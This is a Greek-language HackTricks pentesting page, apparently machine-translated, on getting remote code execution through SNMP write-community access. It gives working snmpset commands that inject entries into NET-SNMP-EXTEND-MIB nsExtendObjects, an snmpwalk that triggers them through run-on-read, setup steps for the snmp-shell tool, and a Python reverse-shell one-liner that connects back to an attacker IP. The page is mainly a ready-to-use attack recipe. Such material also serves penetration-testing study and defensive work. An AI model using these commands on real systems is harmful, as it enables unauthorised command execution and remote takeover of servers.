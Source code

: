 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

# SNMP RCE

Το SNMP μπορεί να εκμεταλλευτεί από έναν επιτιθέμενο αν ο διαχειριστής παραβλέψει την προεπιλεγμένη ρύθμιση του στη συσκευή ή τον διακομιστή. Με την **κατάχρηση της κοινότητας SNMP με δικαιώματα εγγραφής (rwcommunity)** σε ένα λειτουργικό σύστημα Linux, ο επιτιθέμενος μπορεί να εκτελέσει εντολές στον διακομιστή.

## Επέκταση Υπηρεσιών με Πρόσθετες Εντολές

Για να επεκταθούν οι υπηρεσίες SNMP και να προστεθούν επιπλέον εντολές, είναι δυνατόν να προστεθούν νέες **γραμμές στον πίνακα "nsExtendObjects"**. Αυτό μπορεί να επιτευχθεί χρησιμοποιώντας την εντολή `snmpset` και παρέχοντας τις απαραίτητες παραμέτρους, συμπεριλαμβανομένης της απόλυτης διαδρομής προς το εκτελέσιμο και την εντολή που θα εκτελεστεί:
```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = /bin/echo \
'nsExtendArgs."evilcommand"' = 'hello world'
```
## Εισαγωγή Εντολών για Εκτέλεση

Η εισαγωγή εντολών για εκτέλεση στην υπηρεσία SNMP απαιτεί την ύπαρξη και εκτελεσιμότητα του καλούμενου δυαδικού/σεναρίου. Το **`NET-SNMP-EXTEND-MIB`** απαιτεί την παροχή της απόλυτης διαδρομής προς το εκτελέσιμο.

Για να επιβεβαιωθεί η εκτέλεση της εισαγόμενης εντολής, μπορεί να χρησιμοποιηθεί η εντολή `snmpwalk` για την καταμέτρηση της υπηρεσίας SNMP. Η **έξοδος θα εμφανίσει την εντολή και τις σχετικές λεπτομέρειες της**, συμπεριλαμβανομένης της απόλυτης διαδρομής:
```bash
snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
```
## Running the Injected Commands

Όταν η **εισαγμένη εντολή διαβάζεται, εκτελείται**. Αυτή η συμπεριφορά είναι γνωστή ως **`run-on-read()`** Η εκτέλεση της εντολής μπορεί να παρατηρηθεί κατά τη διάρκεια της ανάγνωσης snmpwalk.

### Gaining Server Shell with SNMP

Για να αποκτήσετε έλεγχο πάνω στον διακομιστή και να αποκτήσετε ένα server shell, μπορείτε να χρησιμοποιήσετε ένα σενάριο python που έχει αναπτυχθεί από τον mxrch από [**https://github.com/mxrch/snmp-shell.git**](https://github.com/mxrch/snmp-shell.git).

Εναλλακτικά, μπορείτε να δημιουργήσετε χειροκίνητα ένα reverse shell εισάγοντας μια συγκεκριμένη εντολή στο SNMP. Αυτή η εντολή, που ενεργοποιείται από το snmpwalk, δημιουργεί μια σύνδεση reverse shell με τη μηχανή του επιτιθέμενου, επιτρέποντας τον έλεγχο της μηχανής του θύματος. Μπορείτε να εγκαταστήσετε την προϋπόθεση για να το εκτελέσετε:
```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```
Ή μια αντίστροφη θήκη:
```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```
## Αναφορές
* [https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/](https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/)


{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
